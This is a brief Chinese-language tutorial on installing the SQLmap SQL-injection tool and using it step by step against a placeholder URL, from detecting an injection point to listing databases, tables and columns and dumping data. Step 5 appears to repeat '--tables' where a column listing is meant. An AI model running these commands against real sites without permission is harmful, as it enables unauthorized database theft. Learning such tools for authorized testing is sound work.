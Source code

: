 ## 简介

SQLmap是一款自动化的SQL注入工具，kali linux下为自带工具，其他系统则需自行下载安装

## 安装方法

在Windows下，在Github上下载SQLmap的发行版并解压

在Linux下，在确认python环境配置没问题后使用`sudo pip install sqlmap`命令进行安装

## 检测安装是否完成

Windows下，在确认python环境配置没问题后，在终端中使用`python sqlmap.py`或`pyhton sqlmap.py -h`命令进行检验

Linux下，在终端中使用 `sqlmap`命令进行检验

如出现下图即安装完成


![[Pasted image 20241125161040.png]]

## 查看帮助文档

使用`sqlmap -h`查看SQLmap帮助文档

## SQLmap的基本使用步骤

### 1、检测注入点

`sqlmap -u 'http://xx/?id=1'`

### 2、查看所有数据库

`sqlmap -u 'http://xx/?id=1' --dbs`

### 3、查看当前使用的数据库

`sqlmap -u 'http://xx/?id=1' --current-db`

### 4、查看数据表

`sqlmap -u 'http://xx/?id=1' -D 'db' --tables`

### 5、查看字段

`sqlmap -u 'http://xx/?id=1' -D 'db' -T 'tables' --tables`

### 6、查看数据

`sqlmap -u 'http://xx/?id=1' -D 'db' -T 'tables' --dump`
